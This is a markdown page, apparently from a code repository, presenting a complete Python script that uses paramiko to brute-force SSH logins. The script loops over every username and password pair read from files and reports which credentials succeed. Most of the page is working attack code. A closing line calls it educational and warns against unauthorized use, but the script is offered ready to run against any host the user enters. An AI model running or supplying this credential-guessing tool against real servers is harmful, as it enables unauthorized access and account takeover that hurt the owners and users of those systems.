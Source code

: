 ### Brute Force SSH Script with Paramiko

This Python script performs a brute-force attack on an SSH server using the `paramiko` library. It attempts to authenticate using a list of usernames and passwords obtained from separate files.

### 1. Importing Required Modules:

```python
import paramiko
import socket
import time
```

### 2. Brute Force SSH Function:

```python
def brute_force_ssh(hostname, port, user, password):
    # Log to a file for debugging purposes
    log = paramiko.util.log_to_file('log.log')

    # Create an SSH client object
    ssh_client = paramiko.SSHClient()

    # Load system host keys
    ssh_client.load_system_host_keys()

    # Automatically add unknown hosts to the list of known hosts
    ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        # Attempt SSH connection with the provided credentials
        print('Testing credentials {}:{}'.format(user, password))
        ssh_client.connect(hostname, port=port, username=user, password=password, timeout=5)
        print('Credentials OK {}:{}'.format(user, password))
    except paramiko.AuthenticationException as exception:
        print('AuthenticationException:', exception)
    except socket.error as error:
        print('SocketError:', error)
    finally:
        # Close the SSH client connection
        ssh_client.close()
```

### 3. Main Function:

```python
def main():
    # Get user input for the target hostname and port
    hostname = input("Enter the target hostname: ")
    port = input("Enter the target port: ")

    # Read usernames from a file
    users = open('users.txt', 'r').readlines()

    # Read passwords from a file
    passwords = open('passwords.txt', 'r').readlines()

    # Iterate over each combination of username and password
    for user in users:
        for password in passwords:
            # Introduce a delay to slow down the brute-force attempts
            time.sleep(3)

            # Perform a brute-force attempt using the current username and password
            brute_force_ssh(hostname, port, user.rstrip(), password.rstrip())


if __name__ == '__main__':
    main()
```

### Notes:

- The script prompts the user for the target hostname and port.
- Usernames and passwords are read from separate files (`users.txt` and `passwords.txt`).
- There is a deliberate delay (`time.sleep(3)`) between each attempt to slow down the brute-force process.
- The script uses the `paramiko` library for SSH communication and handles authentication exceptions and socket errors.
- This script is for educational purposes only. Unauthorized access attempts are illegal and unethical. Always ensure you have the appropriate permissions before testing or running such scripts.

